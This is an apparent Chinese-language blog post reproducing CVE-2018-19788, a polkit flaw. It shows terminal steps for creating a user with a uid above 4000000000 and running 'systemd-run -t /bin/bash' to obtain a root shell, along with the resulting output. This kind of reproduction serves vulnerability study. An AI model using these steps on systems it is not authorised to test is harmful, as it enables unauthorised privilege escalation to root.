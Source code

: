 ```yaml
---
title: cve-2018-19788
date: 2022-01-28 15:13:13
tags:
- cve
- polkit
---
```


## CVE-2018-19788复现方法

这个漏洞是任何uid超过4000000000的用户可以在系统上直接执行systemd的命令，复现方法如下

先创建一个uid超过4000000000的用户

```
root@nfs2:~# adduser -u 4000000000 wky2
正在添加用户"wky2"...
正在添加新组"wky2" (4000000000)...
正在添加新用户"wky2" (4000000000) 到组"wky2"...
创建主目录"/home/wky2"...
正在从"/etc/skel"复制文件...
输入新的 UNIX 密码：
重新输入新的 UNIX 密码：
passwd：已成功更新密码
正在改变 wky2 的用户信息
请输入新值，或直接敲回车键以使用默认值
	全名 []:
	房间号码 []:
	工作电话 []:
	家庭电话 []:
	其它 []:
这些信息是否正确？ [Y/n]
root@nfs2:~#
```

切换到新创建的用户，用户uid为4000000000

```
root@nfs2:~# su - wky2
wky2@nfs2:~$ id
uid=4000000000(wky2) gid=4000000000(wky2) 组=4000000000(wky2)
```

执行下面的命令，就会直接切到root用户

```
wky2@nfs2:~$ systemd-run -t /bin/bash

(process:121458): GLib-GObject-WARNING **: value "-294967296" of type 'gint' is invalid or out of range for property 'uid' of type 'gint'
**
ERROR:pkttyagent.c:175:main: assertion failed: (polkit_unix_process_get_uid (POLKIT_UNIX_PROCESS (subject)) >= 0)
Running as unit: run-u95.service
Press ^] three times within 1s to disconnect TTY.
root@nfs2:/#id
uid=0(root) gid=0(root) 组=0(root)
root@nfs2:/# uid=0(root) gid=0(root) 组=0(root)
```

